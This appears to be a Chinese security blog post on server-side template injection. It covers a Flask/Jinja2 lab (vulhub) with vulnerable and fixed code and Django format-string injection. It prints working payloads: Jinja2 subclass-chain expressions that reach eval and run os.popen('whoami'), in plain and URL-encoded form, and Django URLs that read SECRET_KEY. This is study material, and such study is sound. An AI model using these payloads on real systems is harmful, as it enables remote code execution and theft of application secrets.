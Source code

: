 > 本文是跟随https://www.cnblogs.com/bmjoker/p/13508538.html的分析复现，关于java php框架的模板注入漏洞，可以去原文中查看。在此只分析python框架

### 漏洞原理

模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，**利用模板引擎来生成前端的html代码**，模板引擎会提供一套生成html代码的程序，然后只需要获取用户的数据，然后放到渲染函数里，然后生成模板+用户数据的前端html页面，然后反馈给浏览器，呈现在用户面前。

SSTI 就是服务器端模板注入（Server-Side Template Injection）

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其**作为 Web 应用模板内容的一部分**，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句。因而可能导致了敏感信息泄露、代码执行等问题。

凡是使用模板的地方都可能会出现 SSTI 的问题

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911174631687-758048107.png)

## Flask（Jinja2） 服务端模板注入漏洞

### 漏洞分析复现

使用/vulhub/flask/ssti环境

Jinja2是一种面向Python的现代和设计友好的模板语言，它是以Django的模板为模型的，Jinja2是Flask框架的一部分。

此漏洞提供了环境源码

~~~python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')  //name参数由用户输入

    t = Template("Hello " + name) //将输入的name拼接到模板，此时name的输入没有经过任何检测
    return t.render()

if __name__ == "__main__":
    app.run()
~~~

使用模板语言测试

![image-20220331200855545](TyporaPicture/image-20220331200855545.png)

如果使用一个固定好了的模板，在模板渲染之后传入数据，就不存在模板注入，就好像SQL注入的预编译一样，修复上面代码如下：

~~~python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello {{n}}")
    return t.render(n=name)

if __name__ == "__main__":
    app.run()
~~~

### 漏洞利用

可以通过ssti执行python代码

![image-20220331203425634](TyporaPicture/image-20220331203425634.png)

由于在jinja2中是可以直接访问python的一些对象及其方法的，所以可以通过构造继承链来执行一些操作，比如文件读取，命令执行等

![image-20220331202148654](TyporaPicture/image-20220331202148654.png)

用file对象读取文件

![image-20220331202739667](TyporaPicture/image-20220331202739667.png)

不过**python3已经移除了file。所以利用file子类文件读取只能在python2中用。**

在Python中，有一个内建模块，该模块中有一些常用函数;而该模块在Python启动后、且没有执行程序员所写的任何代码前，Python会首先加载该内建函数到内存。另外，该内建模块中的功能可以直接使用，不用在其前添加内建模块前缀，其原因是对函数、变量、类等标识符的查找是按LE(N)GB法则，其中B即代表内建模块。比如：内建模块中有一个abs()函数，其功能是计算一个数的绝对值，如abs(-20)将返回20。

在Python2.X版本中，内建模块被命名为__builtin__，而到了Python3.X版本中，却更名为builtins。

~~~python
search = '__builtins__'
num = 0
for i in {}.__class__.__bases__[0].__subclasses__():
    try:
        #print(i.__init__.__globals__.keys())
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
    num += 1
~~~

![image-20220331204710934](TyporaPicture/image-20220331204710934.png)

构造payload如下

~~~python
{}.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
~~~

![image-20220331205047912](TyporaPicture/image-20220331205047912.png)

只要是含有内建模块的类即可

~~~python
{}.__class__.__bases__[0].__subclasses__()[110].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
~~~

综合利用如下

~~~python
print ({}.__class__.__bases__[0].__subclasses__()[80].__name__)
print("\n")
#####################
for i in {}.__class__.__bases__[0].__subclasses__():
    if i.__name__=='_ModuleLock':
        print(i.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')"))
~~~

![image-20220331210856753](TyporaPicture/image-20220331210856753.png)

将payload转换成模板语句

~~~python
{% for i in {}.__class__.__bases__[0].__subclasses__() %}
    {% if i.__name__=='_ModuleLock' %}
        {{ i.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')") }}
    {% endif %}
{% endfor %}
~~~

进行url编码，用%0A替换换行。回车还能url编码我第一次遇到。

~~~
%7B%25%20for%20i%20in%20%7B%7D.__class__.__bases__%5B0%5D.__subclasses__()%20%25%7D%0A%20%20%20%20%7B%25%20if%20i.__name__%3D%3D%27_ModuleLock%27%20%25%7D%0A%20%20%20%20%20%20%20%20%7B%7B%20i.__init__.__globals__%5B%27__builtins__%27%5D%5B%27eval%27%5D("__import__(%27os%27).system(%27whoami%27)")%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
~~~

然而我自己写的payload执行结果是0。推测是返回值格式的问题。

![image-20220331213932133](TyporaPicture/image-20220331213932133.png)

修改payload

~~~python
{% for i in {}.__class__.__bases__[0].__subclasses__() %}
    {% if i.__name__=='_ModuleLock' %}
        {{ i.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()') }}
    {% endif %}
{% endfor %}
~~~

~~~
%7B%25%20for%20i%20in%20%7B%7D.__class__.__bases__%5B0%5D.__subclasses__()%20%25%7D%0A%20%20%20%20%7B%25%20if%20i.__name__%3D%3D%27_ModuleLock%27%20%25%7D%0A%20%20%20%20%20%20%20%20%7B%7B%20i.__init__.__globals__%5B%27__builtins__%27%5D%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22whoami%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
~~~

成功执行命令

![image-20220331214139126](TyporaPicture/image-20220331214139126.png)



## Djiango SSTI

~~~
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))
~~~

很明显 email 就是注入点，但是条件被限制的很死，很难执行命令，现在拿到的只有有一个和user有关的变量request.user ，这个时候我们就应该在没有应用源码的情况下去寻找框架本身的属性，看这个空框架有什么属性和类之间的引用。

后来发现Django自带的应用 "admin"（也就是Django自带的后台）的models.py中导入了当前网站的配置文件：

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911002243408-1781833415.png)

所以可以通过某种方式，找到Django默认应用admin的model，再通过这个model获取settings对象，进而获取数据库账号密码、Web加密密钥等信息。

payload如下：

~~~
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
~~~



> 参考资料
> https://blog.csdn.net/ssliudh1226/article/details/53420565
> https://www.cnblogs.com/bmjoker/p/13508538.html  介绍的很详细